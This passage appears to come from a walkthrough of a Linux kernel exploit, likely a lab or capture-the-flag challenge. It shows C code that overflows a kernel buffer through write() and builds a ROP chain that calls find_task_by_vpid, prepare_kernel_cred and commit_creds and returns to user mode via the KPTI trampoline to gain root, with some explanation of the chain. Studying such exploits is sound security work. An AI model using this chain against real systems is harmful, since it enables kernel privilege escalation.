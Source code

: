 ```c
    printf("pop r11 mov cl qword ptr rax: 0x%lx\n", pop_r11_mov_cl_qword_rax);
    printf("push rax call rcx: 0x%lx\n", push_rax_call_rcx);
    printf("ret: 0x%lx\n", ret);

    printf("find_task_by: 0x%lx\n", find_task_by_vpid);
    printf("prepk_creds: 0x%lx\n", prepare_kernel_cred);
    printf("commit_cred: 0x%lx\n", commit_creds);
    printf("kpti_trampo: 0x%lx\n", kpti_trampoline);

    puts("offsets fixed");
}
```

### 5. Buffer overflow using the write function
The **write** function uses a buffer that is larger than the target kernel buffer. This causes a buffer overflow that allows the attacker to take control of RIP. The code for the **overflow** function can be seen below:
```c
void overflow() {
  char buf[0x500];
  memset(buf, 'B', 250);
  uint64_t *chain = (uint64_t *)&buf[100];
  *chain++ = canary;
  *chain++ = 0; // rbp
  *chain++ = pop_rdi;
  *chain++ = 0x1; // init vpid
  *chain++ = find_task_by_vpid;
  *chain++ = pop_rcx; // transfer rax to rdi
  *chain++ = pop_rax_pop_rdi; // transfer rax to rdi
  *chain++ = push_rax_call_rcx; // transfer rax to rdi
  *chain++ = prepare_kernel_cred;
  *chain++ = pop_rcx; // transfer rax to rdi
  *chain++ = pop_rax_pop_rdi; // transfer rax to rdi
  *chain++ = push_rax_call_rcx; // transfer rax to rdi
  *chain++ = commit_creds;
  *chain++ = kpti_trampoline; // kpti_trampoline
  *chain++ = 0x3;
  *chain++ = 0x3;
  *chain++ = (uint64_t)&my_jump; // Necessary to 16 byte align stack before spawning shell
  *chain++ = user_mode_cs;
  *chain++ = user_rflags;
  *chain++ = user_sp;
  *chain++ = user_ss; // change to 4 to take the jmp

  write(global_fd, buf, 0x500); // since chain has been incremeneted
}
```

### Ropchain
Let's take a deeper look at the ropchain displayed above.<br>
The code below pops the value 1 into the rdi register and then returns to find_task_by_vpid. The reason is that the exploit need to get a task struct of a process that is running with root privileges. The init process always has process id 1 and runs as root. The reason the exploit is not just calling the classic commit_creds(prepare_kernel_creds(0)) is that this was mitigated back in 2022 so that calling prepare_kernel_creds(0) does not default to root: [see more here](https://lore.kernel.org/lkml/87bkpxh3sz.fsf@cjr.nz/T/)
```c
    *chain++ = pop_rdi;
    *chain++ = 0x1; // init vpid
    *chain++ = find_task_by_vpid;
```